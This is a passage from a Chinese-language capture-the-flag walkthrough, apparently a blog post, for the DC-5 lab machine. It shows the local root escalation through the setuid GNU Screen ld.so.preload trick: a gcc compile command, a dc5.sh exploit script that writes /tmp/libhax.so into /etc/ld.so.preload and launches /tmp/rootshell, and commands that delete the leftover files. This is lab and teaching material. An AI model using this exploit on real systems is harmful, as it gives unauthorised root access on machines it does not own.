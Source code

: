 ```
cat rootshell.c

```

<img src="https://img-blog.csdnimg.cn/81cb227f59c047c5bc90eb00454cc961.png" alt="在这里插入图片描述">

>  
 编译.c文件 


```
gcc -fPIC -shared -ldl -o rootshell.so rootshell.c

```

<img src="https://img-blog.csdnimg.cn/8d13eecaffe248a2b8b5fd430f8fc015.png" alt="在这里插入图片描述">

#### 6.将第三部分代码写入dc5.sh文件

>  
 将最后一部分代码写入dc5.sh文件中。需要注意的是，需要在文件开头写入#!/bin/bash表示执行环境。最后保存是需要输入:set ff=unix是为了防止脚本的格式错误。 


```
#!/bin/bash
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell 

```

```
:set ff=unix

```

<img src="https://img-blog.csdnimg.cn/b3701b0ca2d0446d875a3057910e1132.png" alt="在这里插入图片描述">

>  
 完成3个步骤后之间把三个文件上传至靶机的/tmp文件下，然后执行./dc5即可提权。 将这三个文件传到靶机 


<img src="https://img-blog.csdnimg.cn/be09cddaa650439b99b747a1b99e3199.png" alt="在这里插入图片描述">

>  
 这里我把不要的删除 


```
rm -rf libhax.c
rm -rf rootshell.c
rm -rf rootshell.so

```
